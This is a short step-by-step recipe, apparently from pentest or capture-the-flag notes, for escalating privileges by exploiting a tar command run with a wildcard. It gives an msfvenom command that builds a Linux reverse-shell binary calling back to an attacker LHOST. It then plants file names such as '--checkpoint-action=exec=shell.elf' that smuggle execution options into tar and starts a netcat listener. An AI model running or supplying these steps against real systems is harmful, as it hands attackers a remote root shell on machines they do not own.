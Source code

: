 1. Note that the tar command is being run with a wildcard (*) in your home directory.
2. On kali:-
```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST={LHOST} LPORT=4444 -f elf -o shell.elf
```
3. On attack box upload the binary.
4. 
```console
touch {Directory in which wildcard is used}/--checkpoint=1
touch {Directory in which wild card is used}/--checkpoint-action=exec=shell.elf
```
5. Start netcat listener on attacker machine.